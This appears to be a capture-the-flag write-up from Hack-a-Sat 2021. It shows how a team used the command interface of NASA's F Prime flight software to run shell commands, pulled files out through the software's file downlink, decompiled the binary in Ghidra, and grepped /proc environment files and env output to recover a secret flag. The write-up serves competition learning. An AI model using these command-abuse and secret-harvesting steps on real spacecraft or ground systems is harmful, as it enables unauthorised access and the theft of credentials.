 
#Grade F Prime Beef

### Rapid Unplanned Disassembly 

_88 points, 46 Solves_

Active ADDVulcan players:
<li> supersat
<li> dtechshield

## Challenge Description

Exploit the system, get the passcode, retrieve the flag.

## Ticket

Present this ticket when connecting to the challenge:

```
ticket{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX-XXXXXXXXXXXXXXXX}
```

Don't share your ticket with other teams.

## Connecting

Connect to the challenge on:

```
recent-puzzle.satellitesabove.me:5015
```

Using netcat, you might run:

```
nc recent-puzzle.satellitesabove.me 5015
```

## Solving

Your team's flag for this challenge will look something like:
flag{sierra457871juliet2:___a bunch of unguessable stuff___} 


## Write up by dtechshield

Based on the instructions presented we made a tcp connection to `recent-puzzle.satellitesabove.me` on port `5015` 

```
nc recent-puzzle.satellitesabove.me 5015
```

This presented us with the following output:

```
Ticket please:
ticket{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
Starting spacecraft
Starting ground station
Challenge Web Page Starting at http://18.222.149.133:12388
CLI available at 18.222.149.133:12389
```

First we logged in went to the http server:  `http://18.222.149.133:7834/`

Took a look at the page source: 
![Alt text](images/00_fprime_id.PNG "a title")

Identified that the system was using NASA's F Prime - https://github.com/nasa/fprime

Command interface was somewhat familiar from previous hackasat events...

Quickly looking at the interface - we noticed the Commanding tab - started examining the available commands...

![Commands of Interest](images/01_commands_of_interest_highlighted.PNG "commands of interest")


We noticed `fileManager.ShellCommand`

Assuming this was a Unix based system first issued a command to see what is in the current directory:

```
2021-06-27T05:18:31.854Z    0x25d    fileManager.ShellCommand    [ "ls", "test.log" ]
2021-06-27T05:18:57.059Z    0x1f5    fileDownlink.SendFile    [ "test.log", "test.log" ]
```

Looking at the test.log we saw that there was a `satellite.exe`

```
$ cat test.log 

satellite.exe

test.log
```


Downloaded the `satellite.exe` using the `fileDownlink.SendFile` command.


Loaded `satellite.exe` into Ghidra and began our analysis:

```
void FUN_0014f610(long param_1)

{
  char *__s;
  
  FUN_00150820();
  *(undefined4 *)(param_1 + 0x3b0) = 0;
  __s = getenv("SAT_FLAG");
  strlen(__s);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_replace
            (param_1 + 0x3b8U,0,*(char **)(param_1 + 0x3c0),(ulong)__s);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::resize
            (param_1 + 0x3b8U,-0x60);
  setenv("SAT_FLAG","ThisIsNotTheFlagYouAreLookingFor",1);
  return;
}

```

Noticed the `SAT_FLAG` environment variable...

Ran echo $SAT_FLAG on the web interface

Downloading the file the team saw

```
 cat flag.txt 
ThisIsNotTheFlagYouAreLookingFor
```

supe    rsat executed  the following commands:

```
2021-06-27T05:33:32.386Z    0x25d    fileManager.ShellCommand    [ "grep -ra flag /proc/*", "grep.log" ]
2021-06-27T05:33:42.489Z    0x1f5    fileDownlink.SendFile    [ "grep.log", "grep.log" ]
```


Contents of `grep.log`:

```
/proc/10/task/10/environ:SHELL=/bin/bashSAT_FLAG=flag{sierra457871juliet2:GAedWX5JKpieI6-
va7QCqbKuC3IEdDWeOWbYCRmsS47G7nqjCvgamkGQch-FmO0B0V9wKm_0TKa4OGH77zbkFQs}
PWD=/home/space/fprimeLOGNAME=spaceHOME=/home/spaceFLAG=flag{sierra457871juliet2:GAedWX5JKpieI6-
va7QCqbKuC3IEdDWeOWbYCRmsS47G7nqjCvgamkGQch-FmO0B0V9wKm_0TKa4OGH77zbkFQs}
USER=spaceSHLVL=0PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/gamesMAIL=/var/mail/spaceOLDPWD=/home/space_=./sa
tellite.exe
```


dtechshield executed the following set of commands:

2021-06-27 06:34:08,(2(0)-1624775648:279639),fileManager.ShellCommand,605,[ ' e n v ' ,   ' t e s t . l o g ' ]
2021-06-27 06:34:21,(2(0)-1624775661:360806),fileDownlink.SendFile,501,[ ' t e s t . l o g ' ,   ' t e s t . l o g ' ]

Contents of `test.log`:

```
MAIL=/var/mail/space
USER=space
SHLVL=0
HOME=/home/space
OLDPWD=/home/space
LOGNAME=space
_=./satellite.exe
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SAT_FLAG=ThisIsNotTheFlagYouAreLookingFor
SHELL=/bin/bash
PWD=/home/space/fprime
FLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
```


The initially the `SAT_FLAG` almost send us on our way, but dumping the full set of environment variables the team captured the flag. 

